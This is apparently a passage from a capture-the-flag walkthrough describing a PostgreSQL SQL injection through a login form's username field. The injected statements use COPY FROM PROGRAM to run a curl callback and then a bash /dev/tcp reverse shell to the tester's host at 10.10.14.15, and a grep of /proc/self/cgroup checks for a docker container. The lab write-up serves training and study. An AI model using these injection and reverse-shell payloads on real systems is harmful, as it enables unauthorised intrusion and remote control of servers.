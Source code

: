 Using the commands referenced in the blog, I used Burp suite to execute them one at a time, once again using curl to see if I could get a call back to my box and was successful.

```
username=%27%3bDROP+TABLE+cmd_exec--&password=
username=%27%3bCREATE+TABLE+cmd_exec(cmd_output+text)--&password=
username=%27%3bCOPY+cmd_exec+FROM+PROGRAM+'curl+-X+GET+http%3a//10.10.14.15/callback2'--&password=
username=%27%3bSELECT+*+FROM+cmd_exec--&password=
username=%27%3bDROP+TABLE+IF+EXISTS+cmd_exec--&password=
```

![2021-08-22_14-10.png](assets/2021-08-22_14-10.png)

Now that I had command execution I could try creating a reverse shell. I started a netcat listener on port 80 and changed the third post request to use 'bash -c "bash -i >& /dev/tcp/10.10.14.15/80 0>&1"' and received a callback.

```
username=%27%3bCOPY+cmd_exec+FROM+PROGRAM+%27bash+-c+%22bash+-i+>%26+/dev/tcp/10.10.14.15/80+0>%261%22%27--&password=
```

![2021-08-22_15-07.png](assets/2021-08-22_15-07.png)

## Steps (root/system)

I confirmed my suspicious of this machine running a docker container by grepping /proc/self/cgroup for docker. Control groups, or cgroups, is a kernel feature that limits and isolates the cpu, memory, disk I/O and network usage of processes.

```
grep :/docker /proc/self/cgroup 
```

![2021-08-22_16-00.png](assets/2021-08-22_16-00.png)
